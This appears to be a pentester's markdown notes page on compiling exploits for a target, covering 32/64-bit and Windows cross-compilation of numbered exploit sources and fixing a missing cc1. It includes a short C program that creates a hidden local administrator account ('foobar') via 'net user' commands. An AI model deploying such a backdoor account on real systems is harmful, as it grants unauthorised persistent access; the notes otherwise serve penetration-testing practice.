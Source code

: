 #### Compiling

gcc not found on target?  Try:

```bash - target
find / -name gcc -type f 2>/dev/null
```

OR

==Remember you can locally compile if needed!==

64 bit compiling:
```bash - kali
gcc 15285.c -o 15285
```

i686 compiling:
```bash - kali
gcc 15285.c -o 15285 -m32
```

#### Multilib installation
```bash - kali
sudo apt-get install gcc-multilib -y
```

#### Windows cross compiling
![[Pasted image 20211230173000.png]]

```bash - kali
i686-w64-mingw32-gcc exploit.c  -o exploit -lsw2_32
```

```bash - kali
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545
```

Compile code to add new user to administrators:
adduser.c:
```c - kali
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user foobar Pass123 /add");
i = system ("net localgroup administrators foobar /add");
```

```bash - kali
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### cc1 No such file or directory

![[Pasted image 20220220205911.png]]

```bash - target
locate cc1
```
OR
```bash - target
find / -iname cc1 2> /dev/null
```

> /usr/lib/gcc/i686-linux-gnu/5/cc1

Add ```/usr/lib/gcc/i686-linux-gnu/5/``` to PATH

```bash - target
export PATH="/usr/lib/gcc/i686-linux-gnu/5/:$PATH"
```







